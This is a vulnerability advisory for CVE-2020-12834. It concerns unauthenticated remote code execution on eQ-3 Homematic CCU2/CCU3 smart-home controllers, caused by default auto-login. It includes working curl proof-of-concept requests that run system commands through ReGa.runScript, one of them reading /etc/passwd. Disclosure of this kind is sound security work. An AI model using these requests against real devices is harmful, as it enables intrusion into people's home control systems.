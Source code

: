 ```yaml
---
layout: post
title:  "CVE-2020-12834 eQ-3 Homematic CCU2 through 2.51.6 and CCU3 through 3.51.6 allow Remote Code Execution in JSON API Method ReGa.runScript by unauthenticated attackers with access to the web interface due to default auto-login feature enabled during first-time setup (or factory reset)"
date:   2020-05-14 21:30:00 MEST
author: 'psytester'
---
```



# Overview

- CVE: CVE-2020-12834
- Author: psytester
- Title: eQ-3 Homematic CCU2 through 2.51.6 and CCU3 through 3.51.6 allow Remote Code Execution in JSON API Method ReGa.runScript by unauthenticated attackers with access to the web interface due to default auto-login feature enabled during first-time setup (or factory reset)
- Vulnerability Type: CWE-285: Improper Authorization
-	CVSSv3 Base Score: 8.3
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:H/PR:N/UI:R/S:C/C:H/I:H/A:H
- Publishing Date: 14.05.2020
- Updated: --
- Vendor: eQ-3 AG	
- Product: Homematic CCU2 and CCU3
- Vendor contacted: 12.05.2020
- Vendor confirmation: N.A.
- Vendor patch: N.A.
- Vendor Reference: N.A.
- Affected Firmware version of CCU2: 2.51.6 and prior tested
- Affected Firmware version of CCU3: 3.51.6 and prior tested

# Background

From [vendor's website for CCU2](https://www.eq-3.com/products/homematic/detail/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>

In the past, the vendor has never reacted or just very slow to any security report of me. That's why I publish this vulnerability after reporting to vendor without any waiting period.

# Issue Description

During the first time setup or after factory reset a password for WebUI user 'Admin' has to be set, but an auto-login function ist set by default.<br>
According to the support this is to facilitate the initial setup.<br>
Switching off this auto-login is not well intuitive. Go to WebUI Home page > Settings > User management page. Click on below button "Log in automatically" next to buttons "Back" and "New".<br>
In "User selection" select from drop down menu "not selected" and finally click "OK".<br>
How many users are aware of this?

And only here you can see the the security alert:
```
Attention!
If automatic login is activated you will be logged-in to the system without entering your user name or password.
The selected user will be logged-in automatically without further validation. The system is no longer protected against external influences.
You can access other user accounts with click on "Login". Afterwards, please login with the user name and password again.
```

This attack vector is inspired by [CVE-2019-15850](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15850), where a manual login of the admin is required to use the JSON API method ReGa.runScript.<br>
Inside the runScript the undocumented `system.Exec()` call is used which executes plain unix commands.<br>
As a CCU is an ARM System using a Buildroot Busybox system all linux commands you may want to use are possible and you can code a complete shell script.

The following HTTP requests in Web Browser illustrates the attack vectors:

Open the WebUI to be auto-login `http://1.2.3.4/` will redirect to `http://1.2.3.4/pages/index.htm?sid=@7eY56glHVz@`<br>
Extract the session id `7eY56glHVz` for further usage in JSON API call as "_session_id_" value:

```
curl -X POST -H 'Content-Type: application/json; charset=utf-8' -i 'http://1.2.3.4/api/homematic.cgi' --data '{"version": "1.1", "method": "ReGa.runScript", "params": {"script": "string stdout;string stderr;system.Exec(\"sleep 4;cat /etc/passwd\", &stdout, &stderr);WriteLine(stdout);", "_session_id_": "7eY56glHVz"}}'
curl -X POST -H 'Content-Type: application/json; charset=utf-8' -i 'http://1.2.3.4/api/homematic.cgi' --data '{"version": "1.1", "method": "ReGa.runScript", "params": {"script": "string stdout;string stderr;system.Exec(\"/bin/touch /tmp/testfile\", &stdout, &stderr);WriteLine(stdout);", "_session_id_": "7eY56glHVz"}}'
```

# CVE

[CVE-2020-12834](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-12834)

# CVSSv3 Base Score

CVSSv3 Base Score: 8.3

CVSSv3 Vector: CVSS:3.0/AV:N/AC:H/PR:N/UI:R/S:C/C:H/I:H/A:H

# Credit

[psytester](https://psytester.github.io), but I was inspired by [Joshua Lehr CVE-2019-15850](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15850)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2020 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.

